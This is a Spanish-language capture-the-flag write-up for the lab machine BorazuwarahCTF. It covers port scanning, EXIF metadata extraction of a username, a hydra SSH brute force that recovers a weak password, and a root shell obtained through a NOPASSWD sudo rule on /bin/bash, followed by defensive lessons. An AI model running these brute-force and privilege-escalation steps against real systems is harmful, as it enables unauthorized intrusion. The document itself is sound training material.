

# Máquina Vulnerable: BorazuwarahCTF

|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | [borazuwarah](https://dockerlabs.es/#)          |
| Dificultad        | Muy Fácil                                       |
| Fecha de creación | 28/05/2024                                      |
| Fecha del writeup | 10/12/2025                                      |
| Maquina original  | BorazuwarahCTF                                  |

Máquina CTF diseñada para practicar técnicas de pentesting básicas en un entorno controlado. Esta réplica implementa vulnerabilidades típicas que incluyen exposición de metadatos en imágenes, contraseñas débiles y permisos sudo mal configurados.

El objetivo es practicar metodologías de pentesting desde el reconocimiento inicial hasta la escalada de privilegios, utilizando herramientas estándar como nmap, gobuster, exiftool, hydra.

## Tabla de Contenidos

- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Enumeración Web - Análisis del Contenido](#paso-2-enumeración-web---análisis-del-contenido)
  - [Paso 3: Extracción de Metadatos EXIF](#paso-3-extracción-de-metadatos-exif)
  - [Paso 4: Ataque de Fuerza Bruta SSH](#paso-4-ataque-de-fuerza-bruta-ssh)
  - [Paso 5: Acceso SSH como Usuario](#paso-5-acceso-ssh-como-usuario)
  - [Paso 6: Enumeración de Privilegios](#paso-6-enumeración-de-privilegios)
  - [Paso 7: Escalada de Privilegios con Bash](#paso-7-escalada-de-privilegios-con-bash)
- [Conclusión](#conclusión)

---

## Explotación

### Vulnerabilidades Implementadas

- **Exposición de Metadatos**: Archivo imagen con metadatos EXIF que revelan nombre de usuario
- **Contraseña Débil**: Password vulnerable a ataques de diccionario (rockyou.txt)
- **Configuración sudo Insegura**: Usuario puede ejecutar `/bin/bash` como root sin contraseña
- **Permisos Elevados Innecesarios**: Usuario regular con capacidad de ejecutar shell como root

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-10 19:59 EST
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

**Resultado**: Se identifican dos puertos abiertos:
- **Puerto 80 (HTTP)**: Apache httpd 2.4.59
- **Puerto 22 (SSH)**: OpenSSH 9.2p1 Debian 2+deb12u2

### Paso 2: Enumeración Web - Análisis del Contenido

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://172.17.0.2
<html><body></body></html>
```

**Resultado**: La página principal muestra una imagen llamada `imagen.jpeg`

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,jpeg | grep "(Status: 200)"
/index.html           (Status: 200) [Size: 50]
/index.html           (Status: 200) [Size: 50]
```

**Resultado**: Se confirma `index.html` como archivo principal

### Paso 3: Extracción de Metadatos EXIF

```bash
┌──(kali㉿kali)-[~]
└─$ wget http://172.17.0.2/imagen.jpeg
--2025-12-10 20:03:05--  http://172.17.0.2/imagen.jpeg
Connecting to 172.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18667 (18K) [image/jpeg]
Saving to: 'imagen.jpeg'

imagen.jpeg      100%[=========>]  18.23K  --.-KB/s    in 0s

2025-12-10 20:03:05 (1.48 GB/s) - 'imagen.jpeg' saved [18667/18667]
```

Análisis de metadatos con exiftool:

```bash
┌──(kali㉿kali)-[~]
└─$ exiftool imagen.jpeg
ExifTool Version Number         : 13.25
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 12:10:18-04:00
File Access Date/Time           : 2025:12:10 20:03:05-05:00
File Inode Change Date/Time     : 2025:12:10 20:03:05-05:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

**Resultado**: Se obtiene el nombre de usuario `borazuwarah` en el campo Description de los metadatos EXIF

### Paso 4: Ataque de Fuerza Bruta SSH

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-10 20:07:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-10 20:07:13
```

**Resultado**: Credenciales descubiertas → `borazuwarah:123456`

### Paso 5: Acceso SSH como Usuario

```bash
┌──(kali㉿kali)-[~]
└─$ ssh borazuwarah@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:O4p1roi1VxgJcCkT8eG0qxAP8LkcGMNNNg1H/7HISvg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
borazuwarah@172.17.0.2's password:
Linux 98958d45b450 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
borazuwarah@98958d45b450:~$
```

**Resultado**: Acceso exitoso como usuario `borazuwarah`

### Paso 6: Enumeración de Privilegios

```bash
borazuwarah@98958d45b450:~$ sudo -l
Matching Defaults entries for borazuwarah on 98958d45b450:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 98958d45b450:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

**Resultado**: El usuario puede ejecutar `/bin/bash` como root sin contraseña (NOPASSWD)

### Paso 7: Escalada de Privilegios con Bash

```bash
borazuwarah@98958d45b450:~$ sudo /bin/bash
root@98958d45b450:/home/borazuwarah# whoami
root
```

**Resultado**: Escalada exitosa a root ✓

---

## Conclusión

Esta máquina demuestra vulnerabilidades comunes en entornos mal configurados:
- Exposición de información sensible en metadatos de archivos
- Contraseñas extremadamente débiles susceptibles a ataques de diccionario
- Configuraciones sudo inseguras que permiten escalada trivial de privilegios
- Falta de sanitización de archivos públicos

**Lecciones aprendidas:**
- Eliminar metadatos sensibles de archivos antes de publicarlos (usar herramientas como `exiftool -all=`)
- Usar contraseñas robustas y únicas que no aparezcan en diccionarios comunes
- Restringir permisos sudo a comandos específicos y evitar shells interactivas
- Implementar políticas de contraseñas fuertes en servicios SSH
- Validar configuraciones de seguridad regularmente